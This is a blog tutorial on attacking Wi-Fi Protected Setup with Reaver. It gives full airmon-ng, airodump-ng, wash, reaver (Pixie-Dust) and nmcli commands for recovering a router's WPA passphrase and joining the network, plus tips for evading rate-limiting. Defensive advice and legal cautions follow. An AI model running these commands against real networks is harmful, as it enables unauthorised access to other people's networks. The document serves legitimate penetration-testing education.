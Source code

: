 # Exploiting WPS with Reaver

As wireless networks remain a cornerstone of modern connectivity, their security is a critical concern for organizations and individuals alike. Advanced wireless attacks, particularly those targeting Wi-Fi Protected Setup (WPS) vulnerabilities using tools like Reaver, pose significant risks to network integrity. In this blog, I aim to provide a detailed, practical guide for security researchers, penetration testers, and network administrators, covering the technical execution of a Reaver-based attack, its implications, and robust defensive strategies. 

## Understanding WPS and Its Vulnerabilities

Wi-Fi Protected Setup (WPS) was introduced to simplify the process of connecting devices to wireless networks. By allowing users to enter an 8-digit PIN or press a physical button on the router, WPS bypasses the need to input complex WPA/WPA2 passphrases. However, this convenience comes at a cost: a design flaw in the WPS protocol makes it susceptible to brute-force attacks.
The WPS PIN is validated in two halves (four digits each), reducing the effective keyspace to approximately 11,000 possible combinations (10^4 for the first half, plus 10^3 for the second, accounting for a checksum digit). Tools like Reaver exploit this flaw by systematically guessing PINs until the correct one is found, at which point the router discloses the WPA/WPA2 passphrase. This vulnerability affects many routers, even those with strong passphrases, unless WPS is disabled or properly secured.
Reaver: A Tool for WPS Exploitation
Reaver is an open-source tool designed to automate WPS PIN brute-forcing. By targeting the WPS protocol, Reaver can recover the WPA/WPA2 passphrase in hours or days, depending on the router’s configuration and defenses. While highly effective against vulnerable devices, Reaver’s success is not guaranteed, as modern routers may implement rate-limiting or disable WPS entirely. Below, we outline the technical steps to perform a Reaver attack, followed by mitigation strategies.
Prerequisites
Before executing a Reaver attack, ensure you have the following:

A Linux-based system: Kali Linux is recommended, as it comes pre-installed with Reaver and other wireless auditing tools.
A compatible wireless adapter: The adapter must support monitor mode and packet injection. Popular choices include the Alfa AWUS036NHA (Atheros AR9271 chipset) or Panda PAU05.
Administrative privileges: Root access is required to run Reaver and related tools.
Legal authorization: Only perform attacks on networks you own or have explicit permission to test. Unauthorized access is illegal and unethical.

Step-by-Step Guide to Attacking with Reaver
1. Set Up Your Wireless Adapter
Ensure your wireless adapter is configured for monitor mode, which allows it to capture and inject packets.
# Check available interfaces
iwconfig

# Enable monitor mode on wlan0
sudo airmon-ng start wlan0

This creates a monitor interface (e.g., wlan0mon). Confirm the interface is in monitor mode:
iwconfig wlan0mon

2. Identify the Target Router
Use airodump-ng to scan for nearby wireless networks and identify the target router’s BSSID (MAC address), channel, and WPS status.
sudo airodump-ng wlan0mon

Look for the target network in the output. Note the BSSID (e.g., 00:14:BF:12:34:56), channel (e.g., 6), and whether WPS is enabled (indicated in the WPS column). To focus on the target, run a targeted scan:
sudo airodump-ng --bssid 00:14:BF:12:34:56 --channel 6 --wps wlan0mon

3. Verify WPS Vulnerability
Use wash to confirm that the target router has WPS enabled and is not locked (some routers lock WPS after repeated failed attempts).
sudo wash -i wlan0mon

In the output, check the WPS Locked column. If it says No, the router is vulnerable. If Yes, Reaver may still work, but success is less likely due to rate-limiting.
4. Launch the Reaver Attack
Execute Reaver to brute-force the WPS PIN. The following command targets the router’s BSSID and channel, with verbose output (-vv) and the Pixie-Dust attack (-K 1) for faster PIN recovery on supported routers:
sudo reaver -i wlan0mon -b 00:14:BF:12:34:56 -c 6 -vv -K 1


-i: Specifies the monitor interface.
-b: Specifies the target BSSID.
-c: Specifies the channel.
-vv: Enables verbose output for debugging.
-K 1: Attempts the Pixie-Dust attack, which exploits weak WPS implementations to recover the PIN faster.

Reaver will begin guessing PINs, displaying progress and any errors. If successful, it will output the WPS PIN and the WPA/WPA2 passphrase.
5. Connect to the Network
Using the recovered passphrase, connect to the network via your wireless manager or command line:
# Example using nmcli
nmcli device wifi connect "Target_SSID" password "Recovered_Passphrase"

You now have access to the wireless network, simulating a successful attack.
Challenges and Limitations

Time-Consuming: Brute-forcing the WPS PIN can take hours or days, depending on the router’s response time and PIN complexity.
Rate-Limiting: Some routers lock WPS after multiple failed attempts, requiring you to wait or adjust Reaver’s timing parameters (e.g., --delay or --lock-delay).
False Positives: Not all routers with WPS enabled are vulnerable. Firmware updates or custom configurations may mitigate the attack.
Interference: Other wireless devices or networks can disrupt the attack, requiring a stable environment.

To improve success, experiment with Reaver’s advanced options, such as --pin to specify a starting PIN or --no-nacks to ignore negative acknowledgments.
Defending Against Reaver Attacks
Network administrators must proactively secure their wireless networks to mitigate Reaver and similar attacks. Here are evidence-based recommendations:

Disable WPS: The most effective defense is to disable WPS in the router’s admin panel. Log in to the router (typically via 192.168.0.1 or 192.168.1.1), navigate to the wireless settings, and turn off WPS. Note that some routers may not fully disable WPS despite the setting—verify with wash.

Use a Strong Passphrase: While Reaver bypasses the passphrase, a strong WPA2/WPA3 passphrase (at least 16 characters, mixing letters, numbers, and symbols) protects against secondary attacks if WPS is compromised.

Update Firmware: Manufacturers often release firmware updates to patch WPS vulnerabilities or implement rate-limiting. Regularly check the router’s admin panel or manufacturer’s website for updates.

Monitor for Suspicious Activity: Use intrusion detection systems (IDS) or network monitoring tools to detect repeated WPS authentication attempts, which may indicate a Reaver attack.

Segment Networks: Isolate critical devices on a separate VLAN or guest network to limit the impact of a breach.

Replace Vulnerable Hardware: If the router does not support disabling WPS or receiving firmware updates, consider upgrading to a modern, secure model.


Ethical Considerations
Wireless attacks like Reaver are powerful tools for penetration testers, but they carry significant ethical and legal responsibilities. Always obtain written permission from the network owner before conducting tests. Unauthorized access violates laws such as the U.S. Computer Fraud and Abuse Act (CFAA) or the UK Computer Misuse Act, with severe penalties. As security researchers, our goal is to improve network security, not exploit it maliciously.
Conclusion
Reaver’s ability to exploit WPS vulnerabilities underscores the importance of robust wireless security practices. By understanding and simulating these attacks, security professionals can better protect networks against real-world threats. For beginners, mastering tools like Reaver provides a foundation in wireless penetration testing, while advanced practitioners can leverage its nuances to assess complex environments. Network administrators, meanwhile, must prioritize disabling WPS and implementing layered defenses to safeguard their infrastructure.
To deepen your knowledge, experiment with Reaver in a controlled lab environment, explore other wireless attack tools (e.g., Aircrack-ng, Bully), and stay updated on emerging vulnerabilities. Wireless security is a dynamic field—staying ahead requires continuous learning and vigilance.
